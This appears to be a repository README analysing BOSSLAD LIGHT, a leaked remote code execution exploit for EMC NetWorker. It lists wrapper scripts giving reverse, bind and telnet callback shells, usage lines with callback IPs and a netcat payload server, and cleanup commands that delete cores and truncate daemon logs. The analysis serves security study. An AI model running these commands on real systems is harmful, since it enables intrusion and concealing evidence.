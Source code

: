# BOSSLAD (LIGHT)

Remote Code Execution exploit for (Dell) EMC (Legato) NetWorker:

> ### when nsrexec is there but NOT with nsrstatd???

Googling `nsrexec` leads us to [the manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsrexec.html).

The mission notes also contain references to 'NSR' folders. These match with the default directories described in the [nsr_layout manpage](http://www.ipnom.com/Legato-NetWorker-Commands/nsr_layout.html):

```
### Cleanup
-ls /nsr/cores
-ls /nsr/cores/sh
-cat /nsr/cores/sh/*
rm /nsr/cores/sh/*
-rm /nsr/cores/sh
-touch SOMEFILE /nsr/cores

-ls /nsr/logs
-ls /nsr/logs/daemon.log
-get /nsr/logs/daemon.log
wc -l /nsr/logs/daemon.log
head -## /nsr/logs/daemon.log > n
-cat n
cat n > /nsr/logs/daemon.log
touch SOMEFILE /nsr/logs/daemon.log
```

Source: [user.mission.generic.COMMON.old](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1883-L1898)

## Files

* `bl_light`: The new `boss_lad` binary (`boss_lad` is in comments and being replaced by `bl_light`, for example in `bll.tnc.gr`).
* `bll.tnc.gr`: It will run `bl_light` with a long shell command that connects back and executes the file that is given to it on the callback. (That's why you need to run the `nc -l -p localPort < file2Xfer&Run.uu` before running it)
* `bll.perlbind.gr`: It will run `bl_light` with a long Perl command that will listen on the pwned host for connections (for BURNAT seconds). You can then connect to it via `nc` and it will give you a shell (RUN_WHAT).
* `bll.perlcallback.gr`: It will run `bl_light` with a long Perl command that will callback to the given IP and port. It will - of course - give you a shell when it calls back.
* `bll.telnet.gr`: It will run `bl_light` with a telnet command that will call back from the pwned host to give you a shell. Requires `doublet` (double telnet) to be run locally to receive the callback.



## How to use

Each of the four shell scripts contains a help menu but the notes contain an explicit example as well:
```
./bll.tnc.gr -i 66.128.32.67 -l 67.233.61.230 -p 24792 -f sendmail -D /tmp/.scsi
# On local machine with redirector:
./bll.tnc.gr -i 127.0.0.1 -l PITCH_IP -p NETCAT_PORT -f RAT_NAME -D /tmp/WORK_DIR
```
Source: [user.mission.generic.COMMON.old](https://github.com/stoicsurgeon/EQGRP_Linux/blob/master/Linux/doc/old/etc/user.mission.generic.COMMON.old#L1862-L1874)

If you run it against a dummy netcat listener:
```
$ ./bl_light 127.0.0.1 "echo lol"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 12)
64 66 64 73 66 73 64 66 73 64 66 0a                dfdsfsdfsdf.

$ ./bl_light 127.0.0.1 "echo hello"
The official host name: 127.0.0.1
The official host address: 127.0.0.1
Building packet

***** The reponse.... ***** (length 6)
64 66 64 66 64 0a                                  dfdfd.
```

The "dfdsfsdfsdf" is what I type in netcat as answer to the exploit.

## Reverse Engineering bl_light

Since `bl_light` is ran "locally", it is not obfuscated and stripped and it can thus be reverse engineered without a lot of trouble. This is work in progress.

![Bosslad light on the wire](../assets/images/bl_light_pcap.png)

Note: there might be more happening after sending the exploit to the application but I was just listening with a dumb netcat. It's work in progress.
